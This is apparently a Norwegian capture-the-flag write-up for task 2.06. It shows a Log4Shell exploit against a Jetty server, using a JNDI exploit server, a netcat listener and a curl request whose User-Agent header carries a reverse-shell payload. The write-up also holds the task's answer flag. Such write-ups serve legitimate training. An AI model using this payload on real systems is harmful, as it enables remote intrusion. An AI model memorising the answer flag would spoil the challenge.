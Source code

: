# 2.06 - pwr-ws-caf5db 

Gjorde dette før jeg fikk 2.03, 2.04 og 2.05. Så var litt forvirret. Fulgte ikke løypa. 

Så i PCAP filen fra 2.01 at det var en exploit på gang der. Googlet kjapt etter litt jndi:ldap exploit jetty server. Prøvde flere jndi servere men de kjørte på docker. 
Så til slutt at jeg måtte ha det i Java så  fant da samme [server](https://github.com/nil-malh/JNDI-Exploit) som anggriper hadde brukt. 

scp'et opp [jndi.jar](jndi.jar) og kjørte den `java -jar jndi.jar -i 10.0.254.170`. 

Så doc viste at den kunne kjøre reverse shell, så smallt opp `nc -lp 8082` og kjørte følgende payload i curl:

```
curl http://PWR-WS-CAF5DB.PSU/ -v -H "User-Agent: \${jndi:ldap://10.0.254.170:1389/Basic/ReverseShell/10.0.254.170/8082}"
```

Der lå flagget i home mappa. Ved opplasting av flagg fikk jeg også ssh key så jeg kan lettere koble meg til. 

```
login@corax:~$ chmod 600 2_oppdrag/sshkey_pwr-ws-caf5db 
login@corax:~$ ssh -i 2_oppdrag/sshkey_pwr-ws-caf5db user@pwr-ws-caf5db
```

```
Kategori: 2. Oppdrag
Oppgave:  2.06_pwr-ws-caf5db
Svar:     b4e031bb1b7c80c029e6a99209822c1d
Poeng:    10

Det later til at skadevaren fortsatt kjører. Finn flere spor etter aktøren, og søk å skaffe aksess videre inn i infrastrukturen deres.

Brukeren har også privatnøkkel for ssh-tilgang til sin egen maskin. Jeg legger en kopi i oppdragsmappen din for lettere tilgang senere.

Ny fil: /home/login/2_oppdrag/sshkey_pwr-ws-caf5db
```